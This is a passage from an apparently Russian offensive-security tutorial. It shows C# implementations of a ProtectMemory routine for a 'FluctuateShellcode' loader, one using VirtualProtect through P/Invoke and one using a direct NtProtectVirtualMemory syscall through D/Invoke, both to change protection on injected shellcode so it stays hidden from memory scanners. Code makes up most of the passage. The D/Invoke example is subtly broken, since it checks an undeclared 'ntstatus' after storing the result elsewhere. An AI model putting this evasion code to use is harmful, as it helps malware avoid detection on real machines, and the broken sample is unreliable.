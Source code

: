 ### FluctuateShellcode.ProtectMemory

В реализации этой функции выбор остается за читателем: либо используй VirtualProtect из Win32 API с помощью [P/Invoke](http://www.pinvoke.net/default.aspx/kernel32/VirtualProtect.html), либо <strike>если хочешь быть самым крутым хакером</strike> используй [D/Invoke](https://thewover.github.io/Dynamic-Invoke/) и системные вызовы, как мы делали это, [когда модернизировали KeeThief](https://xakep.ru/2022/03/31/keethief/).

Пример с P/Invoke:

```cs
void ProtectMemory(uint newProtect)
{
    if (Win32.VirtualProtect(shellcodeAddress, (uint)shellcodeLength, newProtect, out _))
        Console.WriteLine("(FluctuateShellcode) [DEBUG] Re-protecting at address " + string.Format("{0:X}", shellcodeAddress.ToInt64()) + $" to {newProtect}");
    else
        throw new Exception("(FluctuateShellcode) [-] VirtualProtect");
}
```

Пример с D/Invoke:

```cs
[UnmanagedFunctionPointer(CallingConvention.StdCall)]
delegate DoItDynamicallyBabe.Native.NTSTATUS NtProtectVirtualMemory(
    IntPtr ProcessHandle,
    ref IntPtr BaseAddress,
    ref IntPtr RegionSize,
    uint NewProtect,
    ref uint OldProtect);

void ProtectMemory(uint newProtect)
{
    IntPtr stub = GetSyscallStub("NtProtectVirtualMemory");
    NtProtectVirtualMemory ntProtectVirtualMemory = (NtProtectVirtualMemory)Marshal.GetDelegateForFunctionPointer(stub, typeof(NtProtectVirtualMemory));
    IntPtr protectAddress = shellcodeAddress;
    IntPtr regionSize = (IntPtr)shellcodeLength;
    uint oldProtect = 0;

    var result = ntProtectVirtualMemory(
        Process.GetCurrentProcess().Handle,
        ref protectAddress,
        ref regionSize,
        newProtect,
        ref oldProtect);

    if (ntstatus == NTSTATUS.Success)
        Console.WriteLine("(FluctuateShellcode) [DEBUG] Re-protecting at address " + string.Format("{0:X}", shellcodeAddress.ToInt64()) + $" to {newProtect}");
    else
        throw new Exception($"(FluctuateShellcode) [-] NtProtectVirtualMemory: {ntstatus}");
}
```


[//]: # (2022-06-17)